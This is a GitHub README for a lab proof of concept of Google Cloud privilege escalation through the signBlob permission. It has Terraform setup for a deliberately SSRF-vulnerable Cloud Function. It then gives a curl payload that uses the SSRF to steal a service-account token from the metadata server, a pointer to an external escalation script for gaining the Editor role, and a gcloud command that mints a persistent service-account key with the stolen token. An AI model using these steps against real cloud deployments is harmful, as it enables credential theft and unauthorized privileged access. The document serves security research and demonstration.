 # PrivEsc PoC for iam.serviceAccounts.signBlob method for signing URLs

## Setup
1. Create [a new project](https://cloud.google.com/resource-manager/docs/creating-managing-projects#creating_a_project) in Google Cloud environment and choose it as current working one.
2. Enable [Cloud Resourse Manager API](https://console.cloud.google.com/apis/library/cloudresourcemanager.googleapis.com) and [Service Usage API](https://console.cloud.google.com/apis/library/serviceusage.googleapis.com) for your project.
3. Open Cloud Shell and ensure that the current project is the new created one.
4. Download Terraform script and setup a vulnerable to SSRF Cloud Function:
```bash
git clone https://github.com/Horlad/signBlob_PrivEsc_PoC.git
cd signBlob_PrivEsc_PoC/terraform
terraform init -upgrade
terraform apply
```

## Exploitation
1. In Terraform output you can locate a URL to the vulnerable Cloud Function. Exploit SSRF to obtain a temporary token of an attached service account which use `iam.serviceAccounts.signBlob` permission to sign URLs.
```bash
curl https://YOUR.CLOUD.FUNCTION.DOMAIN/?url=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token&auth=Metadata-Flavor:%20Google
```
2. The Terraform output you can also find `App Engine` and `Compute Engine` default service accounts which were created automatically during the Cloud Function creation without explicit instructions. You can use them to escalate to `Editor` role via [the Rhinosecurity exploit](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py).
3. To ensure that you obtained the priviliged service account, generate new service account key via next `gcloud` command:
```bash
gcloud iam service-accounts keys create service_account_key.json \
    --iam-account=[DEFAULT_SERVICE_ACCOUNT_EMAIL] --access-token-file=[FILE_WITH_TOKEN]
```
